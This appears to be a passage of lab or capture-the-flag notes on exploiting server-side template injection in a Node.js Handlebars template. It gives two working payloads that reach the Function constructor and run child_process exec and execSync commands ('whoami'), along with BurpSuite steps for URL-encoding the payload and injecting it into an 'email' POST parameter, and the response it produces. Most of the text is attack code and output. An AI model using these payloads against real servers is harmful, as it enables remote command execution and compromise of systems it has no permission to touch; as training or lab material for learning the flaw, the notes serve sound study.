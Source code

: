 ```handlebars
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
- Using BurpSuite, URL encode
- Pass POST request into BurpSuite Repeater
- Replace POST parameter `email` value with encoded value.
- Key Response Elements
```html
<p class="result">
  We will contact you at:       e
  2
  [object Object]
  function Function() { [native code] }
  2
  [object Object]
  [object Object]

</p>
```
### Test alternate ways to return object value
- Useful resources
	- https://nodejs.org/api/child_process.html
	- https://nodejs.org/api/child_process.html#child_processexeccommand-options-callback
	- https://nodejs.org/api/child_process.html#child_processexecsynccommand-options
```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
- Using BurpSuite, URL encode
- Pass POST request into BurpSuite Repeater
- Replace POST parameter `email` value with encoded value.
- Key Response Element